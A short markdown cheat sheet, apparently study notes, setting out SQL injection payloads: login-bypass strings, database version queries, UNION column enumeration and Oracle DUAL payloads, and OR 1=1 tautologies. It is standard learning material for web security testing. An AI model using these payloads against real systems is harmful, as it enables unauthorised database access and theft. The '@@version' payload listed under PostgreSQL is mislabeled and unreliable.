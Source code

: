 # SQL Injection Methodology


##### Login Panels

```
'
```
```
administrator'--
```
##### Querying database type and version

Microsoft,MySQL

```
SELECT @@version
```

Oracle

```
SELECT * FROM v$version
```
```
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```

PostgreSQL

```
SELECT version()
```
```
' UNION SELECT @@version--
```

##### UNION Attacks

For the UNION query to succeed, two requirements must be met:

- The number of columns must be the same.
- The data types of each column must match.
    
We can use the order by clause to determine the number of columns by observing the server's responses to these queries:
    
```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

####### Oracle UNION Attack

There is a built-in table on Oracle called dual which can be used for this purpose. So the injected queries on Oracle would need to look like

```
' UNION SELECT NULL FROM DUAL--
```
2 tables

```
'+UNION+SELECT+'abc','edw'+FROM+DUAL--
```


#### General SQL Injections

```
' OR '1'='1
```
URL Encoded Version

```
'+OR+1=1--
```
